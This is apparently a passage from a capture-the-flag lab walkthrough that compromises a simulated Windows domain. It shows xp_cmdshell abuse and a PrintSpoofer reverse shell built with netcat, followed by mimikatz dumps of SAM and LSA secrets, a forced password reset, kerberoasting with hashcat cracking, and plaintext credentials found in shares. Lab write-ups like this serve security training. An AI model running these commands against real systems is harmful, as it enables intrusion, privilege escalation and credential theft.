|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp open  http          Apache Tomcat (language: en)
|_http-title: Apache Tomcat/10.0.21
|_http-favicon: Apache Tomcat
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 59m59s, deviation: 0s, median: 59m59s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: ACADEMY-AEN-MS0, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:8a:66:0a (VMware)
| smb2-time: 
|   date: 2026-11-10T23:03:27
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.51 seconds


```

```
echo "172.16.8.3 DC01.INLANEFREIGHT.LOCAL DC01" | sudo tee -a /etc/hosts
```

## DEV01 (172.16.8.20)

```
sudo mount -t nfs 172.16.8.20:/ ~/labs/aen/ -o nolock 
```

```
┌──(kali㉿kali)-[~/labs/aen]
└─$ ls
DEV01
                                                                                                                                                                                                                                    
┌──(kali㉿kali)-[~/labs/aen]
└─$ cd DEV01     
                                                                                                                                                                                                                                    
┌──(kali㉿kali)-[~/labs/aen/DEV01]
└─$ ls
BuildPackages.bat  CKEditorDefaultSettings.xml  CKToolbarButtons.xml  CKToolbarSets.xml  DNN  flag.txt  WatchersNET.CKEditor.sln
                                                                                                                                                                                                                                    
┌──(kali㉿kali)-[~/labs/aen/DEV01]
└─$ cd DNN  
                                                                                                                                                                                                                                    
┌──(kali㉿kali)-[~/labs/aen/DEV01/DNN]
└─$ ls
App_LocalResources  CKEditorOptions.ascx              CKEditorOptions.ascx.resx  Constants  Extensions  Objects          Options.aspx.designer.cs  UrlControl.ascx              Web               web.Deploy.config
Browser             CKEditorOptions.ascx.cs           CKFinder                   Content    Install     Options.aspx     packages.config           Utilities                    web.config        web.Release.config
bundleconfig.json   CKEditorOptions.ascx.designer.cs  CKHtmlEditorProvider.cs    Controls   Module      Options.aspx.cs  Properties                WatchersNET.CKEditor.csproj  web.Debug.config
                                                                                                                                                                                                                                    
┌──(kali㉿kali)-[~/labs/aen/DEV01/DNN]
└─$ cat web.config   
<?xml version="1.0"?>
<configuration>
  <!--
    For a description of web.config changes see http://go.microsoft.com/fwlink/?LinkId=235367.

    The following attributes can be set on the <httpRuntime> tag.
      <system.Web>
        <httpRuntime targetFramework="4.6.2" />
      </system.Web>
  -->
  <username>Administrator</username>
  <password>
        <value>D0tn31Nuk3R0ck$$@123</value>
  </password>
  <system.web>
    <compilation debug="true" targetFramework="4.5.2"/>
    <httpRuntime targetFramework="4.5.2"/>
  </system.web>
</configuration>                                                                                                                                                  
```

https://hacktricks.wiki/en/network-services-pentesting/pentesting-web/dotnetnuke-dnn.html


```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
```

running:

```sql
xp_cmdshell 'whoami /priv';
```

reveals seimpersonateprivilege:

adding the .exe estensions

img

uploading nc and print

```sql
xp_cmdshell 'c:\dotnetnuke\portals\0\PrintSpoofer64.exe -c "c:\dotnetnuke\portals\0\nc64.exe 172.16.8.120 9001 -e cmd"';
```

```
$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 172.16.8.20 49841
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

```

## flag on dev01

```
c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DA7F-3F25

 Directory of c:\Users\Administrator\Desktop

06/22/2022  08:05 PM    <DIR>          .
06/22/2022  08:05 PM    <DIR>          ..
06/22/2022  08:05 PM                17 flag.txt
               1 File(s)             17 bytes
               2 Dir(s)  31,527,854,080 bytes free

c:\Users\Administrator\Desktop>cat flag.txt
cat flag.txt
'cat' is not recognized as an internal or external command,
operable program or batch file.

c:\Users\Administrator\Desktop>type flag.txt
type flag.txt
K33p_0n_sp00fing!
c:\Users\Administrator\Desktop>

```

## Credential harvesting

mimikatz is uploaded on the host with the same technique and is used to dump the registry

```
Directory of c:\DotNetNuke\Portals\0

11/13/2026  09:50 AM    <DIR>          .
11/13/2026  09:50 AM    <DIR>          ..
06/01/2022  12:49 PM             9,569 home.css
06/01/2022  12:49 PM    <DIR>          Images
11/13/2026  09:50 AM         1,250,056 mimikatz.exe
11/13/2026  09:39 AM            45,272 nc64.exe
11/13/2026  09:39 AM            27,136 PrintSpoofer64.exe
06/01/2022  12:49 PM    <DIR>          Templates
06/01/2022  12:51 PM    <DIR>          Users
               4 File(s)      1,332,033 bytes
               5 Dir(s)  31,526,572,032 bytes free

c:\DotNetNuke\Portals\0>.\mimikatz.exe
.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug 
Privilege '20' OK

```

```
mimikatz # lsadump::sam
Domain : ACADEMY-AEN-DEV
SysKey : b3a720652a6fca7e31c1659e3d619944
Local SID : S-1-5-21-4188713075-3040141756-4070027797

SAMKey : 5b291799f8cf904e8b45c8a59a7ece3f

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 0e20798f695ab0d04bc138b22344cea8

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 8e9d2160ace6313fd975f14028afc13c

* Primary:Kerberos-Newer-Keys *
    Default Salt : ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 25b7ef9fb0d538b0ea5a5f8e5bb2dd4bd379825373097006085d9e0bc0b4a2bd
      aes128_hmac       (4096) : e0cec3e285f849ceb9505c2a40933ba2
      des_cbc_md5       (4096) : df2f7a2002cd9726
    OldCredentials
      aes256_hmac       (4096) : 2fb39f6a7cafb3a7d7a1898e322b316fbb782adf881a5158b5ee56a6fb2b0d09
      aes128_hmac       (4096) : 56576ae9fbfa03a40a9fdeef3a28f300
      des_cbc_md5       (4096) : 855b6ba2a17a4067
    OlderCredentials
      aes256_hmac       (4096) : 23cbc0dad348bebcbdbb4c82e9b23af299e8b56de358bafe24f2235f34497e4a
      aes128_hmac       (4096) : e35eb565af30c8ed79df5d8875508df6
      des_cbc_md5       (4096) : 4904021983252cd5

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCALAdministrator
    Credentials
      des_cbc_md5       : df2f7a2002cd9726
    OldCredentials
      des_cbc_md5       : 855b6ba2a17a4067


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount

RID  : 000003e9 (1001)
User : mpalledorous
  Hash NTLM: 3bb874a52ce7b0d64ee2a82bbf3fe1cc

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : ce7a5171bbe834124da91992ecda68c9

* Primary:Kerberos-Newer-Keys *
    Default Salt : ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCALmpalledorous
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 6bd17ff49d28241e0c66633b39a4914e5f502f387f8caa873bd11293f539de20
      aes128_hmac       (4096) : 61352bc0ead58d7ddbb51118c3c4b2a5
      des_cbc_md5       (4096) : a2a404dcd92375cb

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCALmpalledorous
    Credentials
      des_cbc_md5       : a2a404dcd92375cb


```

```
mimikatz # lsadump::secrets
Domain : ACADEMY-AEN-DEV
SysKey : b3a720652a6fca7e31c1659e3d619944

Local name : ACADEMY-AEN-DEV ( S-1-5-21-4188713075-3040141756-4070027797 )
Domain name : INLANEFREIGHT ( S-1-5-21-2814148634-3729814499-1637837074 )
Domain FQDN : INLANEFREIGHT.LOCAL

Policy subsystem is : 1.18
LSA Key(s) : 1, default {b9789de7-ed68-1526-12f5-08fc1ad2996f}
  [00] {b9789de7-ed68-1526-12f5-08fc1ad2996f} c382f753c97d2798f34aa2c43c41ca6fdc8548a17eba53764e79a20550fed730

Secret  : $MACHINE.ACC
cur/hex : 1b 1e df 99 7b ec 38 e6 95 4c ba 10 ca 20 2f 1c 83 12 e2 27 df 0f b6 a8 d9 31 8e 17 30 c6 2b 01 ed c5 ed c6 4d 73 4c 71 fa 24 3c 85 40 82 bd 50 81 32 9d 54 9b 98 cf d0 db 61 66 b9 d1 e2 02 e5 19 8b e4 58 de 7f c5 05 d2 19 fa 97 5f 47 55 41 53 49 39 de 91 77 78 39 b8 99 b2 de 4b e9 69 a1 1c e0 7e 67 06 94 6d 07 a4 86 ab 0b c3 82 d7 e7 e8 d2 8c 56 f3 1b 49 f5 b3 a0 78 fd e0 62 a8 5c dd f9 56 3c 7b f1 ee 2e bb e1 fd 57 10 40 15 74 53 2d 96 6d 94 71 c1 a1 a7 e4 e5 79 e5 da ec f5 e2 fc ac 75 5d 32 5f e0 72 32 cb 37 90 7e c5 c1 b9 5c 40 a2 44 73 4b 50 f8 51 03 99 dc d4 a2 86 7b 67 7a 57 c4 c0 03 fc d4 88 db a4 ae d4 47 f3 05 a8 92 e0 37 a2 27 6f 51 af d9 61 85 a7 7e 58 17 93 fd 74 14 d4 a2 74 0e b6 0f cf 13 2d 26 ea 
    NTLM:aea71d223774c11e71f96a6c162cdfba
    SHA1:5d291faf670ee5e03b0f4aed499a2375ffb15007
old/text: >& FZ0F!KFq.+MBPHE.l(xyXD;Pay3n*GAY n-9Y;5>w]_KI@QNbWDtk^u@Ia]`ac$f3<a+`93`jbVn>!vJ!4I;!$]Mg!QK.Or)'Lr0Vv'OU;UdaJiu2hT3l
    NTLM:cb8a6327fc3dad4ea7c84b88c7542e7c
    SHA1:7a235e5ec5d545d163d6c181383d3f043d4685c2

Secret  : DefaultPassword
cur/text: Gr8hambino!

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 69 68 d5 0f 5e c2 bc 41 bc 20 7a 35 f0 39 2b 72 bb 08 3c 22 e1 e7 a8 bc 82 73 39 55 52 ae 8e 23 52 9a d8 74 0d 82 ea 92 
    full: 6968d50f5ec2bc41bc207a35f0392b72bb083c22e1e7a8bc8273395552ae8e23529ad8740d82ea92
    m/u : 6968d50f5ec2bc41bc207a35f0392b72bb083c22 / e1e7a8bc8273395552ae8e23529ad8740d82ea92
old/hex : 01 00 00 00 dd 0a a3 03 f4 54 79 25 14 2b a9 35 5e c6 fb fc 73 af 4e 7f 34 43 f6 4e 38 01 81 de 9a 46 4c f4 b0 6d 50 ed 83 97 aa 5f 
    full: dd0aa303f4547925142ba9355ec6fbfc73af4e7f3443f64e380181de9a464cf4b06d50ed8397aa5f
    m/u : dd0aa303f4547925142ba9355ec6fbfc73af4e7f / 3443f64e380181de9a464cf4b06d50ed8397aa5f

Secret  : NL$KM
cur/hex : 21 0c e6 ac 8b 08 9b 39 97 ea d9 c6 77 db 10 e6 2e b2 53 43 7e b8 06 64 b3 eb 89 b1 da d1 22 c7 11 83 fa 35 db 57 3e b0 9d 84 59 41 90 18 7a 8d ed c9 1c 26 ff b7 da 6f 02 c9 2e 18 9d ca 08 2d 
old/hex : 21 0c e6 ac 8b 08 9b 39 97 ea d9 c6 77 db 10 e6 2e b2 53 43 7e b8 06 64 b3 eb 89 b1 da d1 22 c7 11 83 fa 35 db 57 3e b0 9d 84 59 41 90 18 7a 8d ed c9 1c 26 ff b7 da 6f 02 c9 2e 18 9d ca 08 2d 

Secret  : _SC_MSSQL$SQLEXPRESS / service 'MSSQL$SQLEXPRESS' with username : NT Service\MSSQL$SQLEXPRESS

Secret  : _SC_SQLTELEMETRY$SQLEXPRESS / service 'SQLTELEMETRY$SQLEXPRESS' with username : NT Service\SQLTELEMETRY$SQLEXPRESS


```

```
dir c:\users
 Volume in drive C has no label.
 Volume Serial Number is DA7F-3F25

 Directory of c:\users

06/01/2022  11:52 AM    <DIR>          .
06/01/2022  11:52 AM    <DIR>          ..
06/01/2022  11:03 AM    <DIR>          .NET v2.0
06/01/2022  11:03 AM    <DIR>          .NET v2.0 Classic
06/01/2022  11:03 AM    <DIR>          .NET v4.5
06/01/2022  11:03 AM    <DIR>          .NET v4.5 Classic
06/01/2022  12:03 PM    <DIR>          Administrator
06/01/2022  11:03 AM    <DIR>          Classic .NET AppPool
06/01/2022  10:28 PM    <DIR>          hporter
06/01/2022  11:54 AM    <DIR>          mpalledorous
12/14/2020  06:30 PM    <DIR>          Public
               0 File(s)              0 bytes
              11 Dir(s)  31,526,375,424 bytes free
```

```
nxc smb 172.16.8.3 -u hporter -p Gr8hambino! --shares
SMB         172.16.8.3      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.8.3      445    DC01             [+] INLANEFREIGHT.LOCAL\hporter:Gr8hambino! 
SMB         172.16.8.3      445    DC01             [*] Enumerated shares
SMB         172.16.8.3      445    DC01             Share           Permissions     Remark
SMB         172.16.8.3      445    DC01             -----           -----------     ------
SMB         172.16.8.3      445    DC01             ADMIN$                          Remote Admin
SMB         172.16.8.3      445    DC01             C$                              Default share
SMB         172.16.8.3      445    DC01             Department Shares READ            Share for department users
SMB         172.16.8.3      445    DC01             IPC$            READ            Remote IPC
SMB         172.16.8.3      445    DC01             NETLOGON        READ            Logon server share 
SMB         172.16.8.3      445    DC01             SYSVOL          READ            Logon server share
```

## Bloodhound enumeration

```bash
sudo bloodhound-python -u 'hporter' -p 'Gr8hambino!' -ns 172.16.8.3 -d INLANEFREIGHT.LOCAL -c all --zip
```

```
INFO: Done in 03M 05S
INFO: Compressing output into 20261113132230_bloodhound.zip
```


## ForcePasswordREset acl

```bash
net rpc password "ssmalls" 'Password123!' -U "INLANEFREIGHT.LOCAL"/"hporter"%'Gr8hambino!' -S DC01 
```

```
                                                                                                                                                                                                                                    
┌──(kali㉿kali)-[~/labs/aen]
└─$ nxc smb 172.16.8.3 -u 'ssmalls' -p 'Password123!' --shares                                        
SMB         172.16.8.3      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.8.3      445    DC01             [+] INLANEFREIGHT.LOCAL\ssmalls:Password123! 
SMB         172.16.8.3      445    DC01             [*] Enumerated shares
SMB         172.16.8.3      445    DC01             Share           Permissions     Remark
SMB         172.16.8.3      445    DC01             -----           -----------     ------
SMB         172.16.8.3      445    DC01             ADMIN$                          Remote Admin
SMB         172.16.8.3      445    DC01             C$                              Default share
SMB         172.16.8.3      445    DC01             Department Shares READ            Share for department users
SMB         172.16.8.3      445    DC01             IPC$            READ            Remote IPC
SMB         172.16.8.3      445    DC01             NETLOGON        READ            Logon server share 
SMB         172.16.8.3      445    DC01             SYSVOL          READ            Logon server share 

```

## Kerberoasting

```bash
impacket-GetUserSPNs INLANEFREIGHT.LOCAL/ssmalls -dc-ip 172.16.8.3 -request -outputfile spn.hash 
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

Password:
ServicePrincipalName                         Name          MemberOf  PasswordLastSet             LastLogon                   Delegation 
-------------------------------------------  ------------  --------  --------------------------  --------------------------  ----------
adfsconnect/azure01.inlanefreight.local      azureconnect            2022-06-01 14:32:56.506935  <never>                                
backupjob/veam001.inlanefreight.local        backupjob               2022-06-01 14:33:00.038178  <never>                                
MSSQLSvc/DB01.inlanefreight.local:1433       mssqlsvc                2022-06-01 14:32:31.178803  <never>                                
MSSQLSvc/DEVTEST.inlanefreight.local:1433    sqltest                 2022-06-01 14:32:45.522556  <never>                                
MSSQLSvc/QA001.inlanefreight.local:1433      sqlqa                   2022-06-01 14:32:49.256932  <never>                                
MSSQLSvc/SQL-DEV01.inlanefreight.local:1433  sqldev                  2022-06-01 14:32:41.913173  <never>                                
MSSQLSvc/SQL-WEB01.inlanefreight.local:1433  mssqladm                2022-06-01 14:32:52.897615  2022-06-23 00:45:20.688469             
MSSQLSvc/SQL01.inlanefreight.local:1433      svc_sql                 2022-06-01 14:32:34.850677  <never>                                
MSSQLSvc/SQL02.inlanefreight.local:1433      sqlprod                 2022-06-01 14:32:38.381946  <never>                                
SAP/APP01.inlanefreight.local                sapsso                  2022-06-01 14:33:07.225672  <never>                                
SAPsvc/SAP01.inlanefreight.local             sapvc                   2022-06-01 14:33:10.678799  <never>                                
vmware/vc.inlanefreight.local                vmwarescvc              2022-06-01 14:33:03.600665  <never>
```

backupjob creds

 ```
  hashcat -m 13100 spn.hash /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 7.1+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 21.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-sandybridge-AMD Ryzen 7 5700G with Radeon Graphics, 1468/2937 MB (1468 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 12 digests; 12 unique digests, 12 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 513 MB (1786 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5tgs$23$*backupjob$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/backupjob*$f7d4201e3999e2e43ccec8218a8ba597$5f03453046a5de9c320efe321e60f549b6b1bc2cd1dbf954939bc57ceaddae689180f037fe0290dbcc895fb321c87fed6d3361f49c6e4617b66a7dde56509942f808afa97d0b5941d77787f578a1c9e1683d85b187fbf63caf96b441671cae0dc003d5fe7dc9ab0b42b9f984dfc8aaa87826e9b6d04b85ae8ca311b9958f9a765b1ba0f04b1199b86e340898d90f50ad4478c3bfa4833401a09fc6b03c8a3c4f8dc4c9a7233eaca54e0d96ea51b4d7b562d4b66edd3b33abfcb305dc3a0913f20751db1d9d9b96ee55e69b7de2226d106be60b42f957323caadedd1a1dc9bef4a12f6091e69da8b3004e151762b7976126230c34f6d0ea6f68e66a3791090a8a05569cb4de3a231f512b160fae1125e2633fa8a95975f77d9be282d123857088d9c18cb3673948226daa07a031d7f394d37548124ece3a367f3f4c761b73b5e0a67145d7bf3ea2d08527bc8b6494533afb6f0632b449a32303b70c9abda1ce7c47e5c7bacb1e5495ad96a7e34bca910e6077d1837dd0b1cac07959648bd6d3379ab138e060aea63e9303b910b0874d5a79b2606f2ae529dcda802a32edc41b236a93fc5a5fd8354b660204811a4118f9ec4c830bb208bc3f757fa44856644b3124423d3df64377c08db65f9f3abc0ec66b0ee3c4a240e84d38e4cf28627059202896f0cbfe7c6f3796ec47c121ab65bda3584011029867fe9857dfd64f5b23b94427efdc5a4af7c40cea79328fc496645a513093a35a100258a4a689741e3f155e1e1bf282d7ca9bd731718d8216928d3287853e415e0139182e544164961c5f84717e375a47553816aaaea82e54ab46499c6e7dc9f24d16dad0fbc54855121d130221bf6135d7dbf65809154493ece1f772c6a0c99c8b92e14a766484377bd038d5ec6fb83d1309716298f17a92bbd0b9d871041a56e39910d127ee0ad1b8829da4bfa1253f307f8ff3d8b5ae2a27cc27ef7b664e3a0fbadc261c2ac7bd1f742cd30cf64d7a4e0c8584055d4c53a3ffa35439429c7b486848c0094e279f4f36c6e572d91f6abd1c6c7307749aeff96caa81a56f0efcbe090036388d0818854e86394273899cc84db7d327266dd89b30dc87d08bc7feea235ee529e3929f89a1608b3a9f62181a073ca2c1ece3057186d8a59f83fd61c086dfa500f3d924a48db4c23ddf433797eb1ade50df835298bfbed56109830b0c13886279b70aa8dc651303f0c4d30bf474bc331e37d2e75a1e0e77fb2ace7ee99042de9edd61d9b93d4153c6bb54318fbafab198a81a110f5ff6a4fa8b911be234471ab86884de54325c8974e2e779e15cc5ec994b084d12149d507e9b315bd0d4e7715cafe380d11d360331ecd26c88511773c9b339:lucky7

 ```

```
nxc smb 172.16.8.3 -u backupjob -p lucky7       
SMB         172.16.8.3      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.8.3      445    DC01             [+] INLANEFREIGHT.LOCAL\backupjob:lucky7 
                                                                                              
```

useless account

```bash
smbmap -u ssmalls -p Password123! -H 172.16.8.3 -r 'Department Shares' --depth 5

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 172.16.8.3:445  Name: DC01.INLANEFREIGHT.LOCAL  Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        Department Shares                                       READ ONLY       Share for department users
        ./Department Shares
        dr--r--r--                0 Wed Jun  1 14:34:56 2022    .
        dr--r--r--                0 Wed Jun  1 14:34:56 2022    ..
        dr--r--r--                0 Wed Jun  1 14:36:07 2022    Accounting
        dr--r--r--                0 Wed Jun  1 14:36:00 2022    Executives
        dr--r--r--                0 Wed Jun  1 14:35:53 2022    Finance
        dr--r--r--                0 Wed Jun  1 14:35:29 2022    HR
        dr--r--r--                0 Wed Jun  1 14:35:14 2022    IT
        dr--r--r--                0 Wed Jun  1 14:35:45 2022    Marketing
        dr--r--r--                0 Wed Jun  1 14:35:37 2022    R&D
        ./Department Shares//Accounting
        dr--r--r--                0 Wed Jun  1 14:36:07 2022    .
        dr--r--r--                0 Wed Jun  1 14:36:07 2022    ..
        dr--r--r--                0 Wed Jun  1 14:36:12 2022    Private
        dr--r--r--                0 Wed Jun  1 14:36:10 2022    Public
        ./Department Shares//Executives
        dr--r--r--                0 Wed Jun  1 14:36:00 2022    .
        dr--r--r--                0 Wed Jun  1 14:36:00 2022    ..
        dr--r--r--                0 Wed Jun  1 14:36:05 2022    Private
        dr--r--r--                0 Wed Jun  1 14:36:02 2022    Public
        ./Department Shares//Finance
        dr--r--r--                0 Wed Jun  1 14:35:53 2022    .
        dr--r--r--                0 Wed Jun  1 14:35:53 2022    ..
        dr--r--r--                0 Wed Jun  1 14:35:57 2022    Private
        dr--r--r--                0 Wed Jun  1 14:35:55 2022    Public
        ./Department Shares//HR
        dr--r--r--                0 Wed Jun  1 14:35:29 2022    .
        dr--r--r--                0 Wed Jun  1 14:35:29 2022    ..
        dr--r--r--                0 Wed Jun  1 14:35:32 2022    Private
        dr--r--r--                0 Wed Jun  1 14:35:34 2022    Public
        ./Department Shares//IT
        dr--r--r--                0 Wed Jun  1 14:35:14 2022    .
        dr--r--r--                0 Wed Jun  1 14:35:14 2022    ..
        dr--r--r--                0 Wed Jun  1 14:35:16 2022    Private
        dr--r--r--                0 Wed Jun  1 14:35:14 2022    Public
        ./Department Shares//IT/Private
        dr--r--r--                0 Wed Jun  1 14:35:16 2022    .
        dr--r--r--                0 Wed Jun  1 14:35:16 2022    ..
        dr--r--r--                0 Wed Jun  1 14:35:16 2022    Development
        ./Department Shares//IT/Private/Development
        dr--r--r--                0 Wed Jun  1 14:35:16 2022    .
        dr--r--r--                0 Wed Jun  1 14:35:16 2022    ..
        fr--r--r--             4001 Wed Jun  1 14:35:16 2022    SQL Express Backup.ps1
        ./Department Shares//Marketing
        dr--r--r--                0 Wed Jun  1 14:35:45 2022    .
        dr--r--r--                0 Wed Jun  1 14:35:45 2022    ..
        dr--r--r--                0 Wed Jun  1 14:35:50 2022    Private
        dr--r--r--                0 Wed Jun  1 14:35:48 2022    Public
        ./Department Shares//R&D
        dr--r--r--                0 Wed Jun  1 14:35:37 2022    .
        dr--r--r--                0 Wed Jun  1 14:35:37 2022    ..
        dr--r--r--                0 Wed Jun  1 14:35:43 2022    Private
        dr--r--r--                0 Wed Jun  1 14:35:40 2022    Public
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
[*] Closed 1 connections                                                                             
```

```bash
smbclient -U ssmalls "//172.16.8.3/Department Shares" --password='Password123!'

Try "help" to get a list of possible commands.
smb: \> cd IT
smb: \IT\> ls
  .                                   D        0  Wed Jun  1 14:33:42 2022
  ..                                  D        0  Wed Jun  1 14:33:42 2022
  Private                             D        0  Wed Jun  1 14:33:44 2022
  Public                              D        0  Wed Jun  1 14:33:41 2022

                10328063 blocks of size 4096. 8187746 blocks available
smb: \IT\> cd Privaye
cd \IT\Privaye\: NT_STATUS_OBJECT_NAME_NOT_FOUND
smb: \IT\> cd Privaye
cd \IT\Privaye\: NT_STATUS_OBJECT_NAME_NOT_FOUND
smb: \IT\> cd Private
smb: \IT\Private\> ls
  .                                   D        0  Wed Jun  1 14:33:44 2022
  ..                                  D        0  Wed Jun  1 14:33:44 2022
  Development                         D        0  Wed Jun  1 14:34:17 2022

                10328063 blocks of size 4096. 8187746 blocks available
smb: \IT\Private\> cd Development
smb: \IT\Private\Development\> ls
  .                                   D        0  Wed Jun  1 14:34:17 2022
  ..                                  D        0  Wed Jun  1 14:34:17 2022
  SQL Express Backup.ps1              A     4001  Wed Jun  1 14:34:15 2022

                10328063 blocks of size 4096. 8187746 blocks available
smb: \IT\Private\Development\> get "SQL Express Backup.ps1"
getting file \IT\Private\Development\SQL Express Backup.ps1 of size 4001 as SQL Express Backup.ps1 (23.3 KiloBytes/sec) (average 23.3 KiloBytes/sec)
smb: \IT\Private\Development\> 

```

```bash
cat 'SQL Express Backup.ps1'
$serverName = ".\SQLExpress"
$backupDirectory = "D:\backupSQL"
$daysToStoreDailyBackups = 7
$daysToStoreWeeklyBackups = 28
$monthsToStoreMonthlyBackups = 3

[System.Reflection.Assembly]::LoadWithPartialName("Microsoft.SqlServer.SMO") | Out-Null
[System.Reflection.Assembly]::LoadWithPartialName("Microsoft.SqlServer.SmoExtended") | Out-Null
[System.Reflection.Assembly]::LoadWithPartialName("Microsoft.SqlServer.ConnectionInfo") | Out-Null
[System.Reflection.Assembly]::LoadWithPartialName("Microsoft.SqlServer.SmoEnum") | Out-Null
 
$mySrvConn = new-object Microsoft.SqlServer.Management.Common.ServerConnection
$mySrvConn.ServerInstance=$serverName
$mySrvConn.LoginSecure = $false
$mySrvConn.Login = "backupadm"
$mySrvConn.Password = "!qazXSW@"

$server = new-object Microsoft.SqlServer.Management.SMO.Server($mySrvConn)

$dbs = $server.Databases
$startDate = (Get-Date)
"$startDate"

Get-ChildItem "$backupDirectory\*_daily.bak" |? { $_.lastwritetime -le (Get-Date).AddDays(-$daysToStoreDailyBackups)} |% {Remove-Item $_ -force }
"removed all previous daily backups older than $daysToStoreDailyBackups days"

foreach ($database in $dbs | where { $_.IsSystemObject -eq $False})
{
    $dbName = $database.Name      

    $timestamp = Get-Date -format yyyy-MM-dd-HHmmss
    $targetPath = $backupDirectory + "\" + $dbName + "_" + $timestamp + "_daily.bak"

    $smoBackup = New-Object ("Microsoft.SqlServer.Management.Smo.Backup")
    $smoBackup.Action = "Database"
    $smoBackup.BackupSetDescription = "Full Backup of " + $dbName
    $smoBackup.BackupSetName = $dbName + " Backup"
    $smoBackup.Database = $dbName
    $smoBackup.MediaDescription = "Disk"
    $smoBackup.Devices.AddDevice($targetPath, "File")
    $smoBackup.SqlBackup($server) 
    "backed up $dbName ($serverName) to $targetPath"               
}

if([Int] (Get-Date).DayOfWeek -eq 0)
{
    Get-ChildItem "$backupDirectory\*_weekly.bak" |? { $_.lastwritetime -le (Get-Date).AddDays(-$daysToStoreWeeklyBackups)} |% {Remove-Item $_ -force }
    "removed all previous daily backups older than $daysToStoreWeeklyBackups days"

    foreach ($database in $dbs | where { $_.IsSystemObject -eq $False})
    {
        $dbName = $database.Name      

        $timestamp = Get-Date -format yyyy-MM-dd-HHmmss
        $targetPath = $backupDirectory + "\" + $dbName + "_" + $timestamp + "_weekly.bak"

        $smoBackup = New-Object ("Microsoft.SqlServer.Management.Smo.Backup")
        $smoBackup.Action = "Database"
